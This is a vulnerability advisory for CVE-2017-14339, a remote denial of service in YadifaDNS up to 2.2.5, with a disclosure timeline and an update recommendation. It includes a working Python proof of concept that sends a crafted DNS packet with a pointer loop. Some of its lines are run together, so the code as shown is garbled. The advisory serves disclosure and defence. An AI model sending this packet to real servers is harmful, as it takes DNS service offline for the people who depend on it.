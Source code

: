 # CVE-2017-14339: Remote Denial of Service in YadifaDNS
[![](https://img.shields.io/badge/Attack%20Vector-Remote-red?style=flat-square)]() [![](https://img.shields.io/badge/Privileges%20Required-None-red?style=flat-square)]() [![](https://img.shields.io/badge/User%20Interaction-No-red?style=flat-square)]()


__Vendor:__ EURid<br>
__Vendor URL:__ https://www.yadifa.eu<br>
__Versions affected:__ YadifaDNS <= 2.2.5<br>
__Discovered by:__ Javier Gil ([@ca0s_](https://twitter.com/ca0s_))<br>
__Public fix:__ Yes<br>
__Proof of Concept:__ Yes ([ref](https://github.com/blackarrowsec/advisories/blob/master/2017/CVE-2017-14339/)) <br>

## Summary
The DNS packet parser in YADIFA before 2.2.6 does not check for the presence of infinite pointer loops, and thus it is possible to force it to enter an infinite loop. This can cause high CPU usage and makes the server unresponsive.

## Details
The DNS packet parser does not check for the presence of infinite pointer loops, and thus it is possible to force the thread to enter an infinite loop. The number of threads running on the service that process DNS messages depends on the server’s configuration, so the number of packets needed to make the server to completely stop answering is not fixed. Each time we send the packet, a thread will get stuck forever, until no more threads are available.

The following is a simple PoC:

```python
# Yadifa DoS PoC
# Discovered by: Javier Gil (@ca0s_)
import socket
import sys
if __name__ == '__main__':
        if len(sys.argv) < 2: print "Usage: %s IP [PORT]" % (sys.argv[0], ) sys.exit(-1) IP = sys.argv[1] if len(sys.argv) >= 3:
                PORT = int(sys.argv[2])
        else:
                PORT = 53
        exploit = "3132000000010000000001010a6b61306c6162732d000100000e100006036e7336c00cc02300"
        print "[+] Yadifa DoS PoC"
        print "[+] Sending packet..."
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) # UDP
        sock.sendto(exploit.decode("hex"), (IP, PORT))
        print "[+] Sent!"
```

## Impact
An attacker can cause a denial of service.

## Recommendation
Update to last version.

## Timeline
* 01/09/2017 – Initial contact with EURid’s security team and bug report, following a strict FD policy (Friday Disclosure)
* 01/09/2017 – Got an answer from EURid, information forwarded to yadifa developers
* 04/09/2017 – PoC sent to EURid
* 08/09/2017 – Bug reproduced by EURid’s developers, start developing a patch
* 11/09/2017 – Contact with MITRE
* 12/09/2017 – CVE-2017-14339 assigned
* 13/09/2017 – yadifa 2.2.6 released, bug fixed

#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)
